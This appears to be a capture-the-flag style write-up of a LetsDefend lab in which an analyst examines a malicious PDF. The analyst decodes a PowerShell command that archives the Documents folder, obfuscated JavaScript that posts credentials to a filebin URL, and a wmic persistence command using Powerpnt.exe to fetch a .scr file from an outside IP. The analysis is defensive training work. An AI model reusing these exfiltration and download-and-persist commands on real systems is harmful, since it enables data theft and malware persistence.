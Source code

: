 ```yaml
---
title: PDF Analysis
author: 0wlexe
date: 2022-12-11 20:55:00 +0800
categories: [Writeups, LetsDefend] 
tags: [File Analysis, Malware Analysis]
pin: false
image:
  path: /assets/img/posts/pdf-analysis.png
  alt: Analysis of a PDF file in order to detect if there’s any signs of malicious behavior and possible indicators of compromise.
---
```


## Summary:
An employee has received a suspicious email:
  ```
From: systemsupdate@letsdefend.io
To: paul@letsdefend.io
Subject: Critical — Annual Systems UPDATE NOW
Body: Please do the dutiful before the deadline today.
Attachment: Update.pdf
Password: letsdefend
  ```

![Figure 01 - Simulation of the e-mail](https://miro.medium.com/v2/resize:fit:720/format:webp/1*e2ypH0L_zoVi--rIYGxseQ.png)

The employee has reported this incident to you as the analyst which has also forwarded the attachment to your SIEM. They have mentioned that they did not download or open the attachment as they found it very suspicious. They wish for you to analyze it further to verify its legitimacy.

**NOTE: Do not open in your local environment. It is a malicious file.**

This challenge was prepared by [@DXploiter.](https://twitter.com/DXploiter)

## Information we should find:

1. What local directory name would have been targeted by the malware?
2. What would have been the name of the file created by the payload?
3. What file type would this have been if it were created?
4. Which external web domain would the malware have attempted to interact with?
5. Which HTTP method would it have used to interact with this service?
6. What is the name of the obfuscation used for the Javascript payload?
7. Which tool would have been used for creating the persistence mechanism?
8. How often would the persistence be executed once Windows starts? (format: X.X hours)?
9. Which LOLBin would have been used in the persistence method?
10. What is the filename that would have been downloaded and executed using the LOLbin?
11. Where would this have been downloaded from? (format: IP address)
12. Which country is this IP Address located in?

## Write-up

In order to analyze the contents of the .pdf file, we can use the strings command to extract all strings present in our specified file “Update.pdf”.

![Figure 02 - Extraction of the pdf file using strings command](https://miro.medium.com/v2/resize:fit:720/format:webp/1*5B01xTv3ZVcjaovRnskcBg.png)

Taking a closer look at the strings of the file, it is possible to find a powershell command encoded in Base64.

![Figure 03 - Powershell encoded command](https://miro.medium.com/v2/resize:fit:720/format:webp/1*MkaEM89trAJ-bI_cBygHIg.png)

By decoding the previous command with a decoder tool, there’s a text of reversed characters, we can tell it by taking an even closer look: `p1zsc0D%wqnwnnjekwinz%stnemucoD%:C htaPnoitanitseD- etadpU- *%stnemucoD%:C htaP- evihcrA-sserpmoC`

![Figure 04 - Cryptii Decoder Tool, Base64 to text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*euw4Dx1jIhWHGRIdX1SLZQ.png)

Reversing the string, you should find the hidden powershell command: `Compress-Archive -Path C:%Documents%* -Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p`

![Figure 05 - Code Beautify Tool, Reverse String](https://miro.medium.com/v2/resize:fit:720/format:webp/1*882lAlFlSasi_SXFGyqn5Q.png)

By analysing the previous command, we have gathered the following information about the payload created by the malware:

- `Compress-Archive` - Command to compress the archive;
- `Path C:%Documents%*` - Local directory targeted by the malware;
- `Update -DestinationPath C:%Documents%zniwkejnnwnqw%D0csz1p` - Update the destination path to create a new folder **“zniwkejnnwnqw”** containing the file **“D0csz1p”** which looks similar to **’docs.zip’.**

Going back to the strings of our file, there’s more lines of code we should also pay attention to. From the following lines, we can “get” a POST request, an HTTP method designed to send data to the server from an HTTP client.

![Figure 06 - Lines of code streaming data from client with HTTP - POST request](https://miro.medium.com/v2/resize:fit:720/format:webp/1*z66QaTxsqSrft2oLzrS8fQ.png)

However, by looking at these lines of code alone, we can only assume there is a JavaScript Object Notation (JSON) to be sent, but it’s not very clear to who it is being sent because it’s obfuscated.

![Figure 07 - Custom function eval(p,a,c,k,e,d)](https://miro.medium.com/v2/resize:fit:720/format:webp/1*8hljApXrvvHnp2Djeo8YvA.png)

The `eval(p,a,c,k,e,d)` function evaluates JavaScript code represented as a string and returns its completion value. The source is parsed as a obfuscated script.

In order to have a better look at the script, we can use a tool to format the previous lines of code into something more readable.

![Figure 08 - Javascript Beautifier Tool](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ihY6E-M1cQeWc0VK6BvI3Q.png)

From the previous function, we can observe the following information:

- The file is trying to interact with the external domain: `“https://filebin[.]net/0flqlz0hiz6o4l32/D0csz1p"` by a POST request;
- The data it is trying to send are credentials that should be armazenated in the var data = `‘{“login”:””,”password”:””}’`.

Now in order to find which tool would have been used for creating the persistence mechanism within the payload, we should go back to the strings of the PDF and analyse the contents of the /ObjectAction.

![Figure 09 - Powershell script within the contents of the /ObjectAction](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ogFKxxMT34rKFm0x0g6UsQ.png)

We can open the script on powershell in order to find out more information, but instead of actually running it, we should change the input from `invoke-Expression $LoadCode` (to run the script) into `“Write-Output $LoadCode”` (to print the content of the script).

![Figure 10 - Powershell ISE, Write-Output of the script](https://miro.medium.com/v2/resize:fit:720/format:webp/1*CQUlYjYT0L_FHdFVjHlubQ.png)

Useful information taken from the script:

- `Query=”SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA ‘Win32_PerfFormattedData_PerfOS_System’”` The suspicious script should get events from a remote location within 9000 seconds;
- `wmic /NAMESPACE:”\\root\subscription” PATH CommandLineEventConsumer CREATE Name=”RHWsZbGvlj”, ExecutablePath=”C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe ‘http://60.187.184[.]54/wallpaper482[.]scr'`  It is creating a process to run a specified executable program from a command line under the LOLBin **“Powerpnt.exe”**, which downloads the file **“wallpaper482.scr”** hosted in the suspicious IP domain **60.187.184[.]54;**

![Figure 11 - VirusTotal information on the suspicious IP](https://miro.medium.com/v2/resize:fit:720/format:webp/1*_gTFVLWE5H4gnAQq5B6CkQ.png)

- Running the previous suspicious IP on VirusTotal, it is detected by five Antivirus’ vendors as a possible indicator of compromise located in China;

![Figure 12 - Information from the Whois Lookup](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Xsx33ZmjPL3ANVCmH2Oaew.png)

- In order to confirm its location, we can get the following information from the Whois: the IP is hosted under the ISP **CHINANET-ZJ**, located in Shaoxing, Zhejiang, China.

That should be enough to answer all the questions from the challenge. Thank you for reading!



